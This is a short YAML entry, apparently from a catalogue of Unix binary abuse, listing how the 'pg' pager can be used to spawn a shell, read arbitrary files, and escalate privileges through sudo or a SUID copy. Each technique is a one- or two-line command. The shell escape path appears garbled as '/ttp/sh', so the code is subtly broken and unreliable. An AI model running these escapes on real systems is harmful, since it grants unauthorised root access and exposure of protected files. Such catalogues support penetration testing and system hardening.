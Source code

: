 ```yaml
---
functions:
  shell:
    - code: |
        pg /etc/profile
        !/ttp/sh
  file-read:
    - code: pg file_to_read
  sudo:
    - code: |
        sudo pg /etc/profile
        !/ttp/sh
  suid:
    - code: ./pg file_to_read
---
```

